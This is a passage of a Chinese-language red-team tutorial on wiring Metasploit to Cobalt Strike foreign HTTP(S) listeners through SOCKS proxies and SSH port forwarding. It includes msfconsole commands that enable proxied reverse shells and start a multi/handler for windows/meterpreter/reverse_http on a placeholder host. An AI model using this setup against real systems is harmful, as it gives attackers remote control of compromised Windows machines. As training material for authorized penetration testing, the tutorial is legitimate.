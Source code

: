 如果还想 MSF 通过 Socks 代理获取 Shell，需要开启 `ReverseAllowProxy` 选项。

```bash
msf6 > setg ReverseAllowProxy true
ReverseAllowProxy => true
```

临时无需代理可以用 unsetg 取消 MSF 全局代理。

```bash
unsetg Proxies
```

后面 MSF 直接运行 Explit 利用程序就能获取 Shell。

#### MSF 本地 SSH 动态端口转发 CS Foreign HTTP(S) 监听器流量

Listener 设置 Payload 为 Foreign HTTP(S)，主机填 Server 地址。

![监听器 Payload 查看.png](assets/1708583825-7f25b5cae2bf4d6e4fe5e9c80db9801f.png)

MSF 设置 Payload 与 CS 中对应：

-   windows/foreign/reverse\_http -> windows/meterpreter/reverse\_http
-   windows/foreign/reverse\_https -> windows/meterpreter/reverse\_https

本地 MSF 设置完 run 起来监听 MSF 本地地址和端口，等待 Shell 连接。

```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set lhost 1.1.1.1
msf6 exploit(multi/handler) > set lport 1111
msf6 exploit(multi/handler) > run

[*] Stared HTTP reverse handler on http://1.1.1.1:1111
```
